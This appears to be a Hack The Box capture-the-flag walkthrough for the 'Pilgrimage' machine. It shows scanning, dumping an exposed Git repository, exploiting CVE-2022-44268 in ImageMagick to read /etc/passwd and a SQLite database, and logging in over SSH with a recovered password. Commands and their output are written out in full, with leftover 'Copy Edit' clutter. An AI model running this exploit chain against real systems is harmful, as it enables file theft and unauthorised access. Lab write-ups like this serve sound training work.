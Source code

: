 # HTB_Pilgrimage

## Synopsis
Pilgrimage is an easy-difficulty Linux machine featuring a web application with an exposed Git repository.  
Analysing the underlying filesystem and source code reveals the use of a vulnerable version of ImageMagick,  
which can be used to read arbitrary files on the target by embedding a malicious tEXT chunk into a PNG image.  
The vulnerability is leveraged to obtain a SQLite database file containing a plaintext password that can be  
used to SSH into the machine. Enumeration of the running processes reveals a Bash script executed by root  
that calls a vulnerable version of the Binwalk binary. By creating another malicious PNG, CVE-2022-4510 is  
leveraged to obtain Remote Code Execution (RCE) as root.

---

## Skills Required
- Basics of Web enumeration  
- Basics of Linux enumeration  

## Skills Learned
- Rudimentary source code review  
- Basic scripting  
- Structure of PNG files  

---

## Enumeration

### Nmap
An initial Nmap scan reveals SSH and Nginx services running on their respective default ports.  
The domain `pilgrimage.htb` is revealed, which we add to our hosts file.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.219 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.219
pgsql
Copy
Edit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Feroxbuster
We run a feroxbuster scan to enumerate potentially exposed directories and endpoints.

bash
Copy
Edit
feroxbuster --url http://pilgrimage.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
makefile
Copy
Edit
Found: 
http://pilgrimage.htb/.git/
http://pilgrimage.htb/.git/logs/
http://pilgrimage.htb/assets/
http://pilgrimage.htb/assets/css/
http://pilgrimage.htb/assets/images/
http://pilgrimage.htb/assets/js/
http://pilgrimage.htb/tmp/
http://pilgrimage.htb/vendor/
http://pilgrimage.htb/vendor/jquery/
Git Dumper
The scan reveals an exposed .git directory. We use git-dumper to dump and recreate the repository.

bash
Copy
Edit
git-dumper http://pilgrimage.htb/ ./pilgrimage_source
less
Copy
Edit
[+] Fetching http://pilgrimage.htb/.git/objects/...
[+] Running git checkout .
Foothold
The repository contains a custom ImageMagick binary:

bash
Copy
Edit
./magick --version
makefile
Copy
Edit
Version: ImageMagick 7.1.0-49 beta
This version is vulnerable to CVE-2022-44268 (Arbitrary File Read via PNG tEXt chunk).

We use the following PoC:

bash
Copy
Edit
git clone https://github.com/voidz0r/CVE-2022-44268.git
cd CVE-2022-44268
cargo run "/etc/passwd"
Identifying the Malicious PNG
bash
Copy
Edit
identify -verbose image.png
vbnet
Copy
Edit
png:text: 1 tEXt/zTXt/iTXt chunks were found
profile: /etc/passwd
After uploading the image and retrieving the modified version:

bash
Copy
Edit
identify -verbose 64f59dc103cbb.png
bash
Copy
Edit
Raw profile type:
726f6f743a783a30...
Extracting Data with Python
We decode the hex-encoded data from the image:

bash
Copy
Edit
python3 -c 'print(bytes.fromhex("726f6f743a783a30..."))'
ruby
Copy
Edit
root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily:/home/emily:/bin/bash
...
SQLite DB Extraction
From the downloaded repo we find:

php
Copy
Edit
$db = new PDO('sqlite:/var/db/pilgrimage');
We exploit again, this time targeting the SQLite DB path:

bash
Copy
Edit
cargo run "/var/db/pilgrimage"
Convert the hex data into an SQLite file:

python
Copy
Edit
with open("hex", "rb") as f:
    data = bytes.fromhex(f.read().decode())
with open("sql.db", "wb") as f:
    f.write(data)
Verify it's a valid DB:

bash
Copy
Edit
file sql.db
pgsql
Copy
Edit
sql.db: SQLite 3.x database
Accessing Credentials
bash
Copy
Edit
sqlite3 sql.db
sql
Copy
Edit
.tables
images  users

SELECT * FROM users;
Copy
Edit
emily|abigchonkyboi123
SSH Access
bash
Copy
Edit
ssh emily@pilgrimage.htb
ruby
Copy
Edit
Linux pilgrimage 5.10.0-23-amd64

emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
User flag can be found in /home/emily/user.txt

